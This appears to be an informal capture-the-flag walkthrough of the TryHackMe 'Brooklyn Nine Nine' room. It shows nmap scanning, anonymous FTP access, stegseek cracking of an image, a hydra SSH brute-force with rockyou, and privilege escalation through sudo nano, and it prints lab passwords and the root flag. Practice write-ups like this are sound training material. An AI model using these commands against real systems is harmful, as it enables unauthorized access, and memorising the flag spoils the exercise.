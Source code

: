 target : 10.10.25.185

┌──(root㉿kali)-[/home/…/CTFs/Boot2root/tryhackme/rooms]
└─# nmap -sC -sV -Pn --min-rate 4000 10.10.25.185
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-27 17:55 EDT
Nmap scan report for 10.10.25.185
Host is up (7.9s latency).
Not shown: 954 closed tcp ports (reset), 43 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
21/tcp open  tcpwrapped
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.128.36
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   2048 167f2ffe0fba98777d6d3eb62572c6a3 (RSA)
|   256 2e3b61594bc429b5e858396f6fe99bee (ECDSA)
|_  256 ab162e79203c9b0a019c8c4426015804 (ED25519)
80/tcp open  tcpwrapped
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.52 seconds

found this : _End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
and here i cat it :
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

and also in the web page i found this comment : <!-- Have you ever heard of steganography? -->
i will download the image : http://10.10.25.185/brooklyn99.jpg
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# file brooklyn99.jpg 
brooklyn99.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 533x300, components 3
                                                                                        
using steghide and found nothing now i am trying to use stegseek and crack it :

┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# time stegseek -sf brooklyn99.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin")           
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".


real	0.20s
user	0.13s
sys	0.05s
cpu	91%

and here is what i found : ──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine : for holt user 

Enjoy!!
this password give me nothing but now i will crack jake pass using hydra:
┌──(root㉿kali)-[/home/kali/CTFs/Boot2root/tryhackme]
└─# hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.25.185
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-27 18:09:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.25.185:22/
[22][ssh] host: 10.10.25.185   login: jake   password: 987654321
^C                                                                


PrivEsc
using sudo -l 
i see nano and then use gtfobins
root.txt
# cat *
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# 







